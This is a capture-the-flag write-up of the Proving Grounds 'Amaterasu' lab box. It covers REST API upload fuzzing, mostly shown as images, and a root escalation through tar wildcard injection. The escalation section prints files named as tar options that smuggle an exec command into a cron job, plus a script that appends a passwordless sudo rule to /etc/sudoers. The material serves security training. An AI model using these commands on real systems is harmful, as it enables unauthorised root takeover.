# Amaterasu -- Proving Grounds (write-up)

**Difficulty:** Medium
**Box:** Amaterasu (Proving Grounds)
**Author:** dkrxhn
**Date:** 2024-10-18

---

## TL;DR

### REST API file upload required specific parameter names (trial and error). Got a shell, then escalated via tar wildcard injection in a cron job to add sudo rights for the user.
---
## Target info

- Host: discovered via nmap
---
## Enumeration













---
## REST API file upload



Error said no "file" parameter.



Now says "no fileNAME" -- getting closer.













---
## Privilege escalation -- tar wildcard injection

`tar` was missing a filepath in a cron job, so I created tar as an executable file in the listed filepath:



Can also take advantage of the wildcard by creating empty files with special names in the restapi directory:



```bash
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh privEsc.sh'
```

privEsc.sh contents:



```bash
#!/bin/bash
echo 'alfredo ALL=(root) NOPASSWD: ALL' >> /etc/sudoers
```

Then `sudo su` for root access.

---
## Lessons & takeaways

- REST API file uploads often require specific parameter names -- fuzz them with different field names
- Tar wildcard injection with `--checkpoint` and `--checkpoint-action` is a reliable privesc when tar runs as root on a directory you control
- Creating files named as tar flags is a classic Unix trick
